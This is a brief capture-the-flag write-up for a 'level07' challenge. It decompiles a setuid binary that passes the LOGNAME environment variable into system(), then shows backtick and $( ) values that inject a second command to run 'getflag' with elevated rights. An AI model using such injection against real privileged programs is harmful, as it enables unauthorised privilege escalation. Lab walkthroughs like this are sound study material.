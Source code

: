 There is one executable binary at root. -rwsr-sr-x 1 flag07 level07 8805 Mar 5 2016 level07

Using binary ninja, you can see that the main calls:

main:
gid_t eax = getegid()
uid_t eax_1 = geteuid()
setresgid(eax, eax, eax)
setresuid(eax_1, eax_1, eax_1)
char* var_1c = nullptr
asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"))
return system(var_1c)

Meaning that updating the LOGNAME variable in env will change the output of the executable.

Assigning "getflag" to LOGNAME doesn't suffice, it simply prints to the console.

But adjusting the syntax to 

export LOGNAME='`getflag`'
export LOGNAME='$(/bin/getflag)'

allows the command to be properly interpreted. The system call to getenv executes getflag.

